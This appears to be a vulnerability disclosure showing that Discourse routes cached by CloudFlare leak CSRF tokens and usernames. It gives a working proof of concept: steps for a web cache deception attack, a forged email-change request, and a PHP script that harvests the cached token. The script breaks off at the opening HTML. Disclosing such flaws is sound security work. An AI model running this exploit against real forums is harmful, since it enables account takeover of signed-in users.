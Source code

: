 Same thing with `/u/my/preferences.css`.

The issue is that none of these routes, exposing the CSRF-token and the username, has any `Pragma`, `Cache-Control` or `Expire`-headers, so there's nothing that tells CloudFlare not to cache these URLs.

### PoC

You need an instance behind a CloudFlare-proxy, with no settings more than just enabling CloudFlare on the domain:

{F213373}

Now, we can use the following script as a PoC, remember that if we would attack someone, we would need to fetch the URL server-side from the same CloudFlare-region as the victim. This should be no problem, since there's only 13 regions in total.

What this script will do is this:

1. Victim is signed in to a Discourse instance which is behind a CloudFlare-proxy
2. Victim vists a malicious page by the attacker
3. The page will issue three requests using `img`-tags to `/u/$rand.css`, to make sure that the CloudFlare cache is tainted with the current user and its CSRF-token
4. After the images has loaded, the PHP-script will fetch the same URL server-side, which requires the PHP-script to be in the same CloudFlare region (my region right now for example is Western Europe).
5. The script will extract the username from the `X-Discourse-Username` header and the CSRF-token from the HTML
6. The PHP-script will return these two values to the malicious site, and a form will be crafted:
```
POST /users/$username/preferences/email.json HTTP/1.1
 
_method=PUT&email=$attacker_email&authenticity_token=$csrf_token
```
   
7. Email is now changed for the victim, the attacker will get a verification email. When attacker have clicked on the verification email, the email is now changed. The victim will however get an email saying the email was changed, but the change has already happened.

Here's the script. It seems like `_forum_session`-token has `SameSite=lax` which is great, however, this is not yet implemented in Firefox, so try this in Firefox. You need to point it to an instance which is behind CloudFlare proxy.

```php
<?
$discourse = "https://discourse.instance.behind.cloudflare.proxy"; //like https://try.discourse.org but behind CloudFlare
$email_to_change_to = "changetothis@example.com";

if(!empty($_GET['fetch'])) {
	$f = @intval($_GET['f']);
	$ctx = stream_context_create(array('http' => array('ignore_errors' => true)));
	$data = file_get_contents($discourse.'/u/'.$f.'.css', false, $ctx);
	preg_match('/name="csrf-token" content="([a-zA-Z0-9\/=+]+)"/', $data, $matches);
	if(!empty($matches[1])) {
		preg_match('/X-Discourse-Username: (.*)/', implode("\n", $http_response_header), $name_matches);
		echo $matches[1].';'.$name_matches[1];
	} else {
		echo 'error';
	}
	exit;
}
#random file to taint with csrf-token
$rand = mt_rand(100000,999999);
?>
<html>
  <body>
```